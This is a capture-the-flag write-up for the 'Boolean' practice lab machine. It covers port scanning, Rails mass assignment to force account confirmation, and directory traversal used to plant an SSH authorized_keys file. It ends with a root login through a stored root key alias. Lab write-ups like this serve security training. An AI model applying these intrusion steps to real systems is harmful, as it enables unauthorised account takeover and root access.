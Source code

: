 ```yaml
---
layout: default
title: Boolean
parent: Proving Grounds Practice - Linux
nav_order: 13
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/boolean]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.192.231

Nmap scan report for 192.168.192.231

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)

80/tcp    open  http
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns:
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest, GetRequest, HTTPOptions:
|     HTTP/1.0 403 Forbidden
|     Content-Type: text/html; charset=UTF-8
|_    Content-Length: 0
| http-title: Boolean
|_Requested resource was http://192.168.192.231/login
33017/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Development
|_http-server-header: Apache/2.4.38 (Debian)

```

# Enumeration

---

## 80 | HTTP

The default page is a simple login.

![login](../../../assets/images/ctfs/proving_grounds/boolean/login.png)

If we create an account we can login and land on this _/register/confirmation_ page.

![confirmation](../../../assets/images/ctfs/proving_grounds/boolean/confirmation.png)

Intercepting the edit request in Burp we can evaluate the parameters in the response header.

The JSON object contains a _confirmed_ field with the value of "false".

![false](../../../assets/images/ctfs/proving_grounds/boolean/false.png)

# Exploitation

---

We can leverage the Rails "Mass Assignment" vulnerability by changing the value supplied in the response header from "user[email]=email_address" to "user[confirmed]=true".

[Here is a writeup on Mass Assignment Vulnerabilty](https://guides.rubyonrails.org/v2.3.11/security.html#mass-assignment)

If we change the value in the request header we can see the response header reflects the change to "confirmed:true"

![true](../../../assets/images/ctfs/proving_grounds/boolean/true.png)

When we refresh the Confirmation page we are provided the File Manager page with an upload option.

![upload](../../../assets/images/ctfs/proving_grounds/boolean/upload.png)

Upload a test file to see the behavior

![test](../../../assets/images/ctfs/proving_grounds/boolean/test.png)

If we manipulate the _cwd_ parameter in the URL we have directory traveral ability.

![dir](../../../assets/images/ctfs/proving_grounds/boolean/dir.png)

We see that we are in the directory path of the user _remi_

![remit](../../../assets/images/ctfs/proving_grounds/boolean/remit.png)

We discover a .ssh directory and the ability to upload files to this directory.

![ssh](../../../assets/images/ctfs/proving_grounds/boolean/ssh.png)

Let's generate a public key and rename to _authorized_keys_ and upload to the .ssh directory of the user _remi_

```bash
# Generate key SSH key pair in the current directory
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/boolean]
└─$ ssh-keygen -q -N '' -f sshkey

# Now rename the public key to authorized_keys
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/boolean]
└─$ mv sshkey.pub authorized_keys

```

We now have the _authorized_keys_ file upload and ready to use to SSH as _remi_

![authorized](../../../assets/images/ctfs/proving_grounds/boolean/authorized.png)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/boolean]
└─$ ssh -i sshkey remi@192.168.192.231
The authenticity of host '192.168.192.231 (192.168.192.231)' can't be established.
ED25519 key fingerprint is SHA256:eTG4NrU6OUZPVXOLLTYv8t/tCRLp9jupV23MLshPn4k.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.192.231' (ED25519) to the list of known hosts.
Linux boolean 4.19.0-21-amd64 #1 SMP Debian 4.19.249-2 (2022-06-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
remi@boolean:~$ id
uid=1000(remi) gid=1000(remi) groups=1000(remi)

```

# Post-Exploitation

---

## Check for aliases

```bash
remi@boolean:~$ compgen -a
ls
root

```

List the _root_ alias

```bash
remi@boolean:/tmp$ alias
alias ls='ls --color=auto'
alias root='ssh -l root -i ~/.ssh/keys/root 127.0.0.1'

```

Using the IdentitiesOnly option with a boolean value true or yes will force SSH to explicitly use the identity specified in the command line.

```bash
remi@boolean:/tmp$ ssh -l root -i ~/.ssh/keys/root 127.0.0.1 -o IdentitiesOnly=true
Linux boolean 4.19.0-21-amd64 #1 SMP Debian 4.19.249-2 (2022-06-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@boolean:~# id
uid=0(root) gid=0(root) groups=0(root)

```
